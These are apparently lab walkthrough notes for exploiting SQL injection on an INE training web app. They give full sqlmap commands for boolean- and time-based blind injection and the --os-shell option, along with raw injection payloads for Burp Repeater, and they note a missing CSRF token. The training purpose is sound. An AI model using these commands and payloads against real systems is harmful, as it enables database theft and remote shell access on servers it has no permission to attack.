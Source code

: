 > Obtain an OS shell on the target server.

Use the following command:
```
--os-shell
```

```
sqlmap -u "http://demo.ine.local/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" --cookie "PHPSESSID=gotu3qj422pmksv4ubtmjbmmo5; showhints=1" -p username --technique=B --level=5 --risk=2 --retries=10 --timeout 120
```


Use the following command to exploit SQLi using the boolean-based blind technique:
```
--technique B
```

Copy the payload to the vulnerable field, in this case username:
```
Payload = page=user-info.php&username=test' AND 7329=(SELECT (CASE WHEN (7329=7329) THEN 7329 ELSE (SELECT 1951 UNION SELECT 7004) END))-- -&password=test&user-info-php-submit-button=View Account Details
```

> if you are sending through burp, URL encode first



- Exploit SQLi vulnerability using the time-based blind technique using the sqlmap tool.

Use the following command to exploit SQLi using the time-based blind technique:
```
--technique T
```

```
sqlmap -u "http://demo.ine.local/index.php?page=user-info.php&username=test&password=test&user-info-php-submit-button=View+Account+Details" --cookie "PHPSESSID=gotu3qj422pmksv4ubtmjbmmo5; showhints=1" -p username --technique=T --level=5 --risk=2 --retries=10 --timeout 120
```

> ps: moreover sqlmap flags here 
https://github.com/sqlmapproject/sqlmap/wiki/Usage 


- Copy that payload and place it in the username parameter (in the Burp Repeater window):


Time-based Blind SQLi Payload:
```
page=user-info.php&username=test' AND (SELECT 8505 FROM (SELECT(SLEEP(5)))XglP)-- CkEz&password=test&user-info-php-submit-button=View Account Details
```


- CSRF
Notice the : **csrf-token** parameter is empty - there is no CSRF protection! 

> Therefore, if an attacker-controlled page is opened, it would register a new user with the victim users session without requiring any user-interaction!
